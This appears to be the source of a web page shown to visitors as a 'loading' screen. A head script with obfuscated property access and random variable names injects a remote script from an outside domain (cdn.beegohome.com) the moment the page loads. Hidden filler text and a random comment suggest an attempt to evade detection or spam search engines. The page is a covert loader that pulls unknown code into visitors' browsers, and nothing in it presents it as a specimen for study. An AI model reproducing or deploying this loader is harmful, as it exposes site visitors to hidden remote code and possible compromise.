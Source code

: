 
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8" />
    <meta content="width=device-width,initial-scale=1,user-scalable=0,minimum-scale=1,maximum-scale=1" name="viewport" />
    <meta content="yes" name="apple-mobile-web-app-capable" />
    <meta content="black" name="apple-mobile-web-app-status-bar-style" />
    <meta content="no" name="msapplication-tap-highlight" />
    <meta content="IE=edge" http-equiv="X-UA-Compatible" />
    <title>....</title>
    <script type="text/javascript">
        var WAItcl1 = WAItcl1 || [];
        var b2 = ["//cdn.beegohome.com/Mjk/fuck.js?r"];
        var h3;
        var t4;
        for (var dCuNmfglmjk = 0; dCuNmfglmjk < b2["length"]; dCuNmfglmjk++) {
            h3 = window["document"]["createElement"]("script");
            h3["src"] = b2[dCuNmfglmjk];
            t4 = window["document"]["getElementsByTagName"]("script")[0];
            t4["parentNode"]["insertBefore"](h3, t4);
        }
    </script>
    <!-- INaCuSQjEdGjwgOwKHmnihKJKtYhcZrLNsnikerPhXYEeNbPun-->
</head>
<body>
加载中......
<p style="display: none;">桥沸佳静嫡薪寒溅矢厕美彼马诧露槽描漆巴灭伤那裙</p>
</body>
</html>
